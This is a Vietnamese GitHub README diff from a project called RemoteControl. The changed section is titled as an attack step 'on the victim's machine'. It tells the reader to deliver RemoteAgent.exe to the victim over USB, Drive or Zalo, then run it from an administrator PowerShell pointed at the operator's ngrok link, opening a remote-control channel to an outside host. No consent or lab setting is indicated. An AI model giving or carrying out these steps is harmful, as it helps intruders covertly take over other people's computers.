

Before and after one commit to VoMinhKhang2210/RemoteControl, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Hoan thanh project

````diff
--- a/README.md
+++ b/README.md
@@ -89,16 +89,18 @@ RemoteControl/
     👉 Bạn sẽ thấy file RemoteAgent.exe (Dung lượng khoảng ~60MB).
 ### 📍 Bước 3: Tấn công (Trên máy nạn nhân)
 
-   1. **Copy đường dẫn thư mục:** Vào thư mục chứa file `RemoteAgent.exe`, bấm vào thanh địa chỉ ở trên cùng và copy đường dẫn.
+   1. **Gửi file**: Copy file RemoteAgent.exe (vừa lấy ở Bước 2) sang máy nạn nhân (qua USB, Drive, Zalo...).
 
-   2. **Mở PowerShell Admin:**
+   2. **Copy đường dẫn thư mục:** Vào thư mục chứa file `RemoteAgent.exe`, bấm vào thanh địa chỉ ở trên cùng và copy đường dẫn.
+
+   3. **Mở PowerShell Admin:**
        - Nhấn phím **Windows**, gõ chữ `powershell`.
        - Chọn **"Run as Administrator"** bên tay phải.
 
-   3. **Di chuyển vào thư mục:**
+   4. **Di chuyển vào thư mục:**
        - Gõ lệnh: `cd "dán-đường-dẫn-vừa-copy-vào-đây"` rồi Enter.
 
-   4. **Chạy lệnh kết nối:**
+   5. **Chạy lệnh kết nối:**
        ```powershell
        .\RemoteAgent.exe <link-ngrok-của-bạn>
 
````
